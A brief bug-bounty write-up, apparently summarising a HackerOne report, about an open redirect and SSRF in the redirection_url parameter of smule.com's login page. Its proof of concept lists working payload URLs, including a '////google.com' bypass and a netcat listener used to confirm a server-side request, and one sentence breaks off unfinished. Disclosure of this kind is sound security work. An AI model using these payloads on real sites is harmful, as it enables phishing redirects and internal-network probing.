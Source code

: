 # [#writeups 771465](https://hackerone.com/reports/771465)
`redirection_url=` parameter at [https://www.smule.com/user/login?redirection_url=](https://www.smule.com/user/login?redirection_url=) was vulnerable to Open redirect & SSRF 

## Proof of Concept
### Open redirect
 * [https://www.smule.com/user/login?redirection_url=////google.com](https://www.smule.com/user/login?redirection_url=////google.com)
 * Open redirect with this bypass with 

### SSRF
 * Start a listener on port 1337, nc -lvp 1337

 * [https://www.smule.com/user/login?redirection_url=](https://www.smule.com/user/login?redirection_url=)

 * Enter  [https://www.smule.com/user/login?redirection_url=////0.0.0.0:1337](https://www.smule.com/user/login?redirection_url=////0.0.0.0:1337)

